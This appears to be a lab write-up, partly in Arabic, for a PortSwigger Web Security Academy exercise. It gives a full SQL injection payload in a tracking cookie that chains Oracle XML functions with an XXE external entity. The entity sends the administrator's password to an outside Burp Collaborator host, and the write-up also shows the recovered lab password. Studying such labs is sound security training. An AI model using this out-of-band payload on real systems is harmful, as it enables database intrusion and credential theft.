Cookie: TrackingId=uSdq0uCSJ0Bo21MN'+UNION+SELECT+EXTRACTVALUE(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//'||(SELECT+password+FROM+users+WHERE+username%3d'administrator')||'.2x0kd4arp9wf4u2tlk2exq5940aryomd.oastify.com/">+%25remote%3b]>'),'/l')+FROM+dual--; session=zahAEPB6Ls0SjsSsM8q2e3HMjPIF7gfi
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://portswigger.net/
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: cross-site
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers



```



## **`payload`**

```url
Cookie: TrackingId=uSdq0uCSJ0Bo21MN'+UNION+SELECT+EXTRACTVALUE(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//'||(SELECT+password+FROM+users+WHERE+username%3d'administrator')||'.2x0kd4arp9wf4u2tlk2exq5940aryomd.oastify.com/">+%25remote%3b]>'),'/l')+FROM+dual--; 
```




<img width="1515" height="762" alt="image" src="https://github.com/user-attachments/assets/abc60122-0eb3-4b9a-ac53-a920a58cd44a" />

**`password`**

```
 l9fegk90yhnd387imm9m
```






- <details>


	
	
	
	
	# 📌 شرح استغلال SQLi + XXE OOB (Out-of-Band)
	
	## 🔎 الطلب المرسل:
	```http
	GET / HTTP/2
	Host: 0a5d00a904001c92814e203400120057.web-security-academy.net
	Cookie: TrackingId=uSdq0uCSJ0Bo21MN'+UNION+SELECT+EXTRACTVALUE(
	  xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f>
	  <!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//'||(SELECT+password+FROM+users+WHERE+username%3d'administrator')||'.2x0kd4arp9wf4u2tlk2exq5940aryomd.oastify.com/">+%25remote%3b]>'),
	'/l') FROM dual--; session=zahAEPB6Ls0SjsSsM8q2e3HMjPIF7gfi
	```
	
	---
	
	## 📌 الخطوات اللي بتحصل:
	
	### 1. SQL Injection  
	- الاستغلال بدأ من متغير `TrackingId` في الكوكيز.  
	- تمت إضافة:  
	  ```sql
	  '+UNION+SELECT+EXTRACTVALUE(xmltype(...),'/l') FROM dual--
	  ```
	- الهدف: تنفيذ **XXE عبر قاعدة البيانات**.
	
	---
	
	### 2. EXTRACTVALUE + XMLType  
	- `EXTRACTVALUE` تفسر النص كـ XML.  
	- `xmltype('<...>')` يحتوي على **DTD**.  
	- داخل الـ DTD تم تعريف **External Entity (%remote)**.
	
	---
	
	### 3. الـ Out-of-Band Exploit (OOB)  
	```xml
	<!ENTITY % remote SYSTEM "http://'||(SELECT password FROM users WHERE username='administrator')||'.2x0kd4arp9wf4u2tlk2exq5940aryomd.oastify.com/">
	```
	- يعمل **DNS/HTTP request خارجي**.  
	- اسم الدومين يصبح:  
	  ```
	  [باسوورد الأدمن].2x0kd4arp9wf4u2tlk2exq5940aryomd.oastify.com
	  ```
	- مثال: لو الباسوورد `abc123` → الطلب سيكون:  
	  ```
	  http://abc123.2x0kd4arp9wf4u2tlk2exq5940aryomd.oastify.com
	  ```
	
	---
	
	### 4. استقبال البيانات عبر Burp Collaborator / OAST  
	- عند تنفيذ الطلب الخارجي، السيرفر يقوم بـ **DNS lookup** أو **HTTP request**.  
	- الباسوورد يتسجل عندك على الـ **Burp Collaborator client**.  
	- هكذا تسحب بيانات الأدمن **خارج القناة (Out-of-Band)**.
	
	---
	
	## 🎯 الهدف النهائي
	- استغلال **SQLi** → حقن دوال XML → تنفيذ **XXE External Entity** → تسريب بيانات حساسة (باسوورد الأدمن) إلى خادمك الخارجي.  
	- التقنية = **SQLi + XXE OOB** → مفيدة جدًا عند غياب النتائج المباشرة في الـ response.
	
	


  </details>



<img width="1263" height="594" alt="image" src="https://github.com/user-attachments/assets/eca20b92-8d0a-41af-94d3-228b7f75cf13" />



 
</details>





























## [Portsqigger cheat-sheet](https://portswigger.net/web-security/sql-injection/cheat-sheet)




































